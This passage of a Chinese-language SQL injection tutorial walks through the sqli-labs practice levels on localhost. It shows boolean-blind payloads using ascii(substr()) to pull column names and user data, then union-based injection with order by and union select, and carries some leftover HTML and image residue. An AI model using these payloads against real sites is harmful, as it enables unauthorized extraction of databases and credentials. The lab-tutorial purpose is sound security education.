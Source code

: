 ```
3：判断字段的ascii值
//判断第一个字段的第一个字符的长度
http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))&gt;100
​
//判断第一个字段的第二个字符的长度
http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),2,1))&gt;100
​
...........
由此可判断出users表中存在 id、username、password 字段</code>[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t012eb09f21483b324d.gif)</pre>
5.判断字段中的数据
<pre class="pure-highlightjs"><code class="hljs sql">我们知道了users中有三个字段 id 、username 、password，我们现在爆出每个字段的数据
​
1: 判断数据的长度
// 判断id字段的第一个数据的长度
http://127.0.0.1/sqli/Less-5/?id=1' and length((select id from users limit 0,1))&gt;5
​
// 判断id字段的第二个数据的长度
http://127.0.0.1/sqli/Less-5/?id=1' and length((select id from users limit 1,1))&gt;5
​
2：判断数据的ascii值
// 判断id字段的第一个数据的第一个字符的ascii值
http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr((select id from users limit 0,1),1,1))&gt;100
​
// 判断id字段的第一个数据的第二个字符的ascii值
http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr((select id from users limit 0,1),2,1))&gt;100
​
...........
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t012eb09f21483b324d.gif)

### 二：union 注入

union联合查询适用于有显示列的注入。

我们可以通过order by来判断当前表的列数。最后可得知，当前表有3列

[http://127.0.0.1/sqli/Less-1/?id=1](http://127.0.0.1/sqli/Less-1/?id=1)‘ order by 3 #

我们可以通过 union 联合查询来知道显示的列数

[127.0.0.1/sqli/Less-1/?id=1′ union select 1 ,2 ,3 #](http://127.0.0.1/sqli/Less-1/?id=1%27%20union%20select%201%20,2%20,3%20%23)

[![](https://p2.ssl.qhimg.com/t01b084527ce480c494.png)](https://p2.ssl.qhimg.com/t01b084527ce480c494.png)
